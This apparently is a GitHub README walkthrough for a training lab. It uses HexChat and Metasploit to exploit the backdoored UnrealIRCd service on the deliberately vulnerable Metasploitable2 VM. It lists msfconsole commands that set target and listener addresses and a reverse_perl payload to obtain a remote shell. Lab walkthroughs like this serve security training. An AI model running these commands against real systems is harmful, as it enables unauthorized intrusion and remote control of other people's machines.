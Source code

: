 # Hack Metacploiable2 vulnarable machine: Unreal IRC with HEXchat and METASPLOIT FRAMEWORK #


### Tools need to install ###
- Hexchat
- Metasploit Framework
```
sudo apt install hexchat
```
```
sudo apt install metasploit-framework
```
### Steps ###
- Find the metsploitable2 machines IP [Click here to see details](find_ip_ms2.md).
- Check if <b> UnrealIRCd </b> (port 6667/tcp) is open with nmap.
- Let the metasploitable2 machines IP is 192.168.56.103
- Let kali/parrot ip is 192.168.56.1
- Connect with Unreal IRC with hexchat

```
hexchat
```

### 1
!['Hexchat add network '](hexchat_add_network.png)
### 2
!['Hexchat edit network '](hexchat_edit_network.png)
### 3
!['Hexchat add network '](hexchat_find_version.png)

- After finding the version of Unreal IRC , search for exploits in metasploit framework
```
msfconsole
```
- In msfconsole, run those command
```
search unreal irc

use exploit/unix/irc/unreal_ircd_3281_backdoor

show options

set RHOSTS 192.168.56.103

set target 0

show payloads

set payload payload/cmd/unix/reverse_perl 

show options

set LHOST 192.168.56.1

set LPORT 4444

exploit

```
### Boom! you got a shell
!['You got shell'](gotShell.png)